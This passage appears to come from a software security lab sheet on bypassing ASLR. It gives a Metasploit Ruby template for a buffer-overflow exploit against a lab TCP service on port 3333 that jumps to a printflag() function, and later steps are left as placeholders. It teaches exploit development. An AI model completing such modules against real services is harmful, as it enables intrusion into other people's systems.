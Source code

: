 ==action: Create a Metasploit exploit module, and save it as **aslr_bof1.rb** in **/root/.msf4/modules/exploits/linux/misc/**:==

> Hint: To make the directory path, you can run `mkdir -p /root/.msf4/modules/exploits/linux/misc/`

Here is a template script that you can base your exploit on:

```ruby
require 'msf/core'

class MetasploitModule < Msf::Exploit::Remote
  include Msf::Exploit::Remote::Tcp

  def initialize(info = {})
    super(update_info(info,
      'Name' => 'aslr_bof1',
      'Description' => 'ASLR bypass via information leak. Control flow redirection to printflag() function.',
      'Author' => [ 'Your name'],
      'Version' => '$Revision: 1 $',
      'Platform' => ['unix'],
      'Arch'    => ARCH_CMD,
      'Targets' => [ [ 'Automatic Target', { } ],],
      'Payload' => {'BadChars' => "\x00\x0a\x0d\x20" },
      'DefaultTarget' => 0,
      'License' => GPL_LICENSE
    ))
    register_options( [ Opt::RPORT(3333) ])
  end

  def exploit
    puts "A TCP based Metasploit module"
    connect
    banner = sock.get_once.to_s.strip
    print_status "Banner: #{banner}"

    puts "\n\nAttach your debugger on the desktop now, then press enter"
    gets
    puts "Continuing!"

    # Step 1: Find the offset
    bad = pattern_create(500)  #[offset:*Offset-Value*]
      
    # Step 2: Confirm we have the correct offset
    # Paste Step 2 template code here (found later in the labsheet)

    # Step 3: Capture the information leak
    # Paste Step 3 template code here (found later in the labsheet)

    # Step 4: Dynamically calculate the printflag() offset
    # Paste Step 4 template code here (found later in the labsheet)

    sock.put bad + "\n\n"
    buf = sock.timed_read(500)
    puts "received #{buf}"
    puts sock.timed_read(500)
    puts sock.timed_read(500)
    disconnect
  end
end
```


[image-1]: {{ site.baseurl }}/assets/images/software_security_exploitation/7_linux_aslr_bypass/image-1.png
[image-2]: {{ site.baseurl }}/assets/images/software_security_exploitation/7_linux_aslr_bypass/image-2.png
[image-3]: {{ site.baseurl }}/assets/images/software_security_exploitation/7_linux_aslr_bypass/image-3.png
[image-4]: {{ site.baseurl }}/assets/images/software_security_exploitation/7_linux_aslr_bypass/image-4.png
[image-5]: {{ site.baseurl }}/assets/images/software_security_exploitation/7_linux_aslr_bypass/image-5.png